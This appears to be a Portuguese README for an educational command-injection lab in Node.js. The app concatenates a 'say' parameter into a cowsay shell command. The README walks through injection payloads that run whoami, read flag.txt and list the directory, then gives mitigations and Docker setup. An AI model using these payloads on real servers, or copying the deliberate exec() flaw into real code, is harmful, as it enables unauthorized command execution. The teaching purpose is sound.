

# Command Injection Lab — Node.js


Laboratório educacional de **OS Command Injection** desenvolvido em Node.js. A aplicação recebe uma entrada HTTP controlada pelo usuário e a utiliza, propositalmente de maneira insegura, na execução de comandos do sistema operacional.

> **Aviso:** este projeto é deliberadamente vulnerável e deve ser executado somente em ambiente controlado, como uma VM, container ou máquina destinada a testes de segurança.

---

## 1. Objetivo

O laboratório demonstra como uma entrada aparentemente simples recebida através de um parâmetro HTTP pode ser utilizada para modificar um comando executado pelo servidor.

O objetivo é desenvolver conscientização sobre **Command Injection**, mostrando o vetor de ataque, o impacto da execução de comandos arbitrários e a importância de tratar entradas externas como não confiáveis.


---

## 2. Tecnologias utilizadas

* **Node.js** — execução do servidor HTTP.
* **JavaScript** — implementação da aplicação.
* **Cowsay** — geração da saída ASCII apresentada ao usuário.
* **child_process** — módulo nativo utilizado para criação de processos no sistema operacional.
* **Docker** — isolamento do laboratório em um container.

A aplicação utiliza `child_process.exec()` para executar o comando:

```text
cowsay "<entrada>"
```

A vulnerabilidade ocorre porque a entrada fornecida pelo usuário é concatenada diretamente nesse comando antes de ser enviada ao shell.

---

## 3. Estrutura do projeto

```text
command-injection-lab/
├── Dockerfile
├── package.json
├── package-lock.json
├── server.js
└── flag.txt
```

---

# 4. Recon

Após iniciar a aplicação, o servidor fica disponível em:

```text
http://localhost:3000
```

A aplicação disponibiliza um parâmetro HTTP chamado `say`:

```text
/?say=hello
```

Uma requisição normal resulta na execução de:

```bash
cowsay "hello"
```

A saída da biblioteca Cowsay é apresentada na página.

Exemplo:

```text
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Durante a análise do comportamento da aplicação, o ponto de entrada identificado é:

```text
GET /?say=<entrada>
```

Esse parâmetro será utilizado como vetor de ataque.

---

# 5. Identification

O código vulnerável utiliza:

```javascript
const command = `cowsay "${say}"`;

exec(command, (error, stdout, stderr) => {
    // ...
});
```

O problema está na combinação de dois fatores:

1. `say` é controlado pelo usuário.
2. O conteúdo de `say` é incorporado diretamente em um comando executado pelo shell.

Assim, a aplicação não está simplesmente passando uma mensagem para o Cowsay. Ela está permitindo que o shell interprete determinados caracteres presentes na entrada.

Caracteres como:

```text
;
&
|
$
```

podem possuir significado especial para o shell e podem ser utilizados para alterar o comportamento do comando.

---

# 6. Exploitation

## Payload 1 — `whoami`

Um primeiro teste pode verificar qual usuário está executando o processo:

```text
/?say=hello%22%3Bwhoami%3B%22
```

Após a decodificação da URL:

```text
?say=hello";whoami;"
```

O comando resultante será equivalente a:

```bash
cowsay "hello";whoami;""
```

O primeiro comando gera a saída da vaquinha e o segundo executa:

```bash
whoami
```

Esse teste demonstra que comandos adicionais podem ser executados no contexto do processo Node.js.

---

## Payload 2 — leitura da flag

O laboratório possui um arquivo:

```text
flag.txt
```

contendo uma flag fictícia.

O payload:

```text
/?say=hello%22%3Bcat%20flag.txt%3B%22
```

é interpretado como:

```text
?say=hello";cat flag.txt;"
```

Resultando conceitualmente em:

```bash
cowsay "hello";cat flag.txt;""
```

O comando:

```bash
cat flag.txt
```

é então executado pelo sistema operacional.

Esse cenário demonstra como uma vulnerabilidade de Command Injection pode evoluir de uma simples execução de comando para a leitura de informações presentes no servidor.

---

## Payload 3 — enumeração do ambiente

Um teste comum durante exercícios de CTF é identificar o diretório atual e seus arquivos:

```text
/?say=hello%22%3Bpwd%3Bls%20-la%3B%22
```

Que resulta em:

```bash
cowsay "hello";pwd;ls -la;""
```

Os comandos:

```bash
pwd
ls -la
```

permitem identificar o diretório de execução e os arquivos disponíveis para o processo.

Esse tipo de enumeração pode fornecer informações úteis para determinar quais arquivos ou recursos podem ser acessíveis após a exploração.

---

# 7. Impact

A vulnerabilidade permite que um atacante execute comandos no sistema operacional com os privilégios do processo Node.js.

Dependendo do contexto de execução, os impactos podem incluir:

* execução arbitrária de comandos;
* leitura de arquivos;
* exposição de informações do sistema;
* enumeração do ambiente;
* acesso a arquivos pertencentes ao usuário do processo;
* movimentação para outras etapas de exploração.

Em um ambiente real, o impacto depende principalmente das permissões concedidas ao usuário que executa a aplicação e dos mecanismos de isolamento existentes.

---

# 8. Mitigation

A principal correção é **não construir comandos de shell utilizando diretamente entradas fornecidas pelo usuário**.

Neste caso específico, a biblioteca Cowsay pode ser utilizada diretamente pelo código Node.js, sem necessidade de executar um processo do sistema operacional:

```javascript
const cowsay = require("cowsay");

const output = cowsay.say({
    text: say
});
```

Essa abordagem elimina a necessidade de enviar a entrada para o shell.

Quando a execução de processos externos for realmente necessária, deve-se evitar `exec()` com strings construídas dinamicamente e considerar APIs que não utilizem um shell, como `execFile()` ou `spawn()` com argumentos separados.

Além disso, aplicações reais devem adotar:

* validação de entrada;
* princípio do menor privilégio;
* isolamento de processos;
* containers quando apropriado;
* controle de permissões de arquivos;
* monitoramento e logging;
* tratamento adequado de erros.

---

# 9. Executando com Node.js

## Requisitos

* Node.js 20 ou superior
* npm

Clone ou copie o projeto:

```bash
git clone <URL_DO_REPOSITORIO>
cd command-injection-lab
```

Instale as dependências:

```bash
npm install
```

Inicie o servidor:

```bash
npm start
```

A aplicação estará disponível em:

```text
http://localhost:3000
```

Teste:

```text
http://localhost:3000/?say=hello
```

---

# 10. Executando com Docker

O laboratório também pode ser executado isoladamente através de um container.

Construa a imagem:

```bash
docker build -t command-injection-lab .
```

Execute:

```bash
docker run --rm -p 3000:3000 command-injection-lab
```

Acesse:

```text
http://localhost:3000
```

Para testar a vulnerabilidade:

```text
http://localhost:3000/?say=hello%22%3Bwhoami%3B%22
```

O uso de Docker é recomendado para este laboratório porque reduz o risco de interferência no sistema hospedeiro. Ainda assim, o container deve ser tratado como um ambiente vulnerável e não deve ser exposto desnecessariamente à Internet.

---

# 11. Dockerfile

O projeto utiliza uma imagem oficial do Node.js e instala as dependências definidas no `package.json`.

```dockerfile
FROM node:20-bookworm-slim

WORKDIR /app

COPY package*.json ./

RUN npm ci --omit=dev

COPY server.js .
COPY flag.txt .

EXPOSE 3000

CMD ["node", "server.js"]
```

O `flag.txt` é copiado para `/app`, que também é o diretório de trabalho da aplicação.

Consequentemente, o payload:

```bash
cat flag.txt
```

consegue localizar o arquivo diretamente.

---

# 12. Fluxo do ataque

```text
┌──────────────┐
│    Cliente   │
└──────┬───────┘
       │
       │ GET /?say=entrada
       ▼
┌──────────────────────┐
│     Node.js HTTP     │
│                      │
│  req → say           │
└──────────┬───────────┘
           │
           │ entrada não confiável
           ▼
┌──────────────────────┐
│ child_process.exec() │
│                      │
│ cowsay "<entrada>"   │
└──────────┬───────────┘
           │
           │ Shell
           ▼
┌──────────────────────┐
│ Sistema Operacional  │
│                      │
│ cowsay                │
│ whoami                │
│ cat flag.txt          │
│ outros comandos       │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ HTTP Response        │
│                      │
│ Resultado exibido    │
│ no navegador         │
└──────────────────────┘
```

---

# 13. Objetivo do exercício

Ao finalizar o laboratório, o participante deve ser capaz de:

* identificar um parâmetro HTTP potencialmente perigoso;
* reconhecer uma construção vulnerável utilizando `child_process.exec()`;
* compreender o papel do shell na interpretação dos comandos;
* demonstrar execução arbitrária de comandos;
* identificar o impacto através da leitura de `flag.txt`;
* compreender estratégias básicas de mitigação contra Command Injection.

---

## Disclaimer

Este projeto foi desenvolvido exclusivamente para fins educacionais, treinamento de segurança e ambientes controlados de CTF/laboratório. A exploração contra sistemas sem autorização é proibida e não faz parte da finalidade deste projeto.